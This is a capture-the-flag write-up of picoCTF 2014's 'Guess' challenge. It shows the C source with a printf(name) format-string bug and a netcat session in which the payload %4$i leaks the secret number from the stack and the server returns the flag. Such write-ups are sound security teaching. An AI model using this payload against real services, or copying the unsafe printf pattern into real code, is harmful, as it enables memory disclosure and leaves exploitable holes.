 ### Solved by Swappage

Guess was a basic 75 points binary exploitation challenge in picoCTF 2014

![](/images/2014/pico/guess/problem.png)

<!-- more -->

The source code was available for download so it was really quick to spot the vuln:

```c
	#include <stdio.h>
	#include <stdlib.h>

	char *flag = "~~FLAG~~";

	void main(){
	    int secret, guess;
	    char name[32];
	    long seed;

	    FILE *f = fopen("/dev/urandom", "rb");
	    fread(&secret, sizeof(int), 1, f);
	    fclose(f);

	    printf("Hello! What is your name?\n");
	    fgets(name, sizeof(name), stdin);

	    printf("Welcome to the guessing game, ");
	    printf(name);
	    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

	    printf("What is your guess?\n");
	    scanf("%d", &guess);

	    if(guess == secret){
		printf("Wow! You guessed it!\n");
		printf("Your flag is: %s\n", flag);
	    }else{
		printf("Hah! I knew you wouldn't get it.\n");
	    }
	}
```

At line 19 there is a wonderful printf(name), which obviously results in a format string exploitable bug.

The program is pretty simple in its functionality, what it does is to open a file from which it reads the flag, then it generates a random number and asks you for your name.
Then it asks you to guess the number it generated.

Obviously abusing the format string bug, we can leak the informations from memory, read the number from the stack and reply with the correct answer, at which point we are returned the flag.

On my local machine using gdb could spot where the number was stored on the stack very precisely, which was at %14$i.
This didn't work on the real target most likely because the binary was compiled under a different system, but with a little of brute forcing, i could eventually work things out

	$ nc vuln2014.picoctf.com 4546
	Hello! What is your name?
	%4$i
	Welcome to the guessing game, -1715610369

	I generated a random 32-bit number.
	You have a 1 in 2^32 chance of guessing it. Good luck.
	What is your guess?
	-1715610369
	Wow! You guessed it!
	Your flag is: leak_the_seakret


